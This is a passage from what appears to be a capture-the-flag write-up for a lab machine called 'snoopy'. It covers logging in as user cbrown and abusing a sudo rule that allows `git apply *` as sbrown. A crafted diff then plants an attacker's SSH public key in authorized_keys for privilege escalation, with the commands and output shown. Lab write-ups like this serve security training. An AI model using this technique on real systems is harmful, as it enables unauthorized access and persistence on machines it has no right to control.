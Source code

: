 
We have a credential! With this, we can `ssh` in as the user `cbrown`:

<figure><img src="../../.gitbook/assets/image (3454).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

No user flag yet.

### Sudo Git Apply -> User

Checking our `sudo` privileges, we see this:

```
cbrown@snoopy:~$ sudo -l
[sudo] password for cbrown: 
Matching Defaults entries for cbrown on snoopy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git apply *
```

We can run commands as `sbrown` using `git apply *`. This means using a `diff` output, we can use this to overwrite any file that `sbrown` owns. In this case, we can put our public SSH key within the `.ssh/authorized_keys` folder.

Then, we can use `diff` on a random folder and this folder. We can use the `.bash_history` file of `cbrown` because it has nothing within it:

{% code overflow="wrap" %}
```
cbrown@snoopy:/home$ git diff cbrown/.bash_history cbrown/.ssh/authorized_keys 
diff --git a/cbrown/.bash_history b/cbrown/.bash_history
deleted file mode 120000
index dc1dc0c..0000000
--- a/cbrown/.bash_history
+++ /dev/null
@@ -1 +0,0 @@
-/dev/null
\ No newline at end of file
diff --git a/cbrown/.ssh/authorized_keys b/cbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..8e881d1
--- /dev/null
+++ b/cbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa KEY kali@kali
```
{% endcode %}
